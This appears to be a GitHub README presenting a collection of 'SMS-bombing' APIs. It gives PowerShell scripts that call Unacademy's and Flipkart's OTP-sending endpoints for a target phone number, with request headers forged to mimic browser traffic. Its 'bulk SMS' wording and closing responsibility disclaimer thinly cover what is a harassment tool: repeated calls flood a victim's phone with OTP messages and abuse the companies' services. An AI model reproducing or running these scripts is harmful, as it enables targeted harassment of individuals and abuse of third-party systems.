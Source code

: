 # Bombing-Api Collection 🚀

A meticulously curated and continuously updated repository of **SMS-bombing APIs** designed for developers to access various services for sending bulk SMS. Explore the collection below and stay tuned for exciting new additions coming soon!

## Unacademy SMS API
This API allows sending OTP requests to phone numbers via the Unacademy platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://unacademy.com/api/v3/user/user_check/?enable-email=true"
$body = @{
    phone        = "<PHONE_NUMBER>"
    country_code = "IN"
    otp_type     = 1
    email        = ""
    send_otp     = $true
    is_un_teach_user = $false
} | ConvertTo-Json

$headers = @{
    "Origin"     = "https://unacademy.com"
    "Referer"    = "https://unacademy.com/"
    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-Platform" = "0"
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## Flipkart OTP Generate API
This API enables sending OTP requests to phone numbers via the Flipkart platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://1.rome.api.flipkart.com/api/7/user/otp/generate"

$body = @{
    loginId = "<PHONE_NUMBER>"   # Must include country code (e.g., +91...)
} | ConvertTo-Json

$headers = @{
    "Origin"         = "https://www.flipkart.com"
    "Referer"        = "https://www.flipkart.com/"
    "User-Agent"     = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-User-Agent"   = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 FKUA/website/42/website/Desktop"
    "Accept"         = "*/*"
    "Content-Type"   = "application/json"
    "Sec-Fetch-Site" = "same-site"
    "Sec-Fetch-Mode" = "cors"
    "Sec-Fetch-Dest" = "empty"
    "Sec-Ch-Ua"      = "\"Chromium\";v=\"139\", \"Not;A=Brand\";v=\"99\""
    "Sec-Ch-Ua-Mobile" = "?0"
    "Sec-Ch-Ua-Platform" = "\"Windows\""
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## What's Next?
- More APIs will be added soon to expand your options for bulk SMS services.
- Stay updated for enhanced documentation and additional examples.

*Note*: Use these APIs responsibly and in compliance with applicable laws and terms of service.
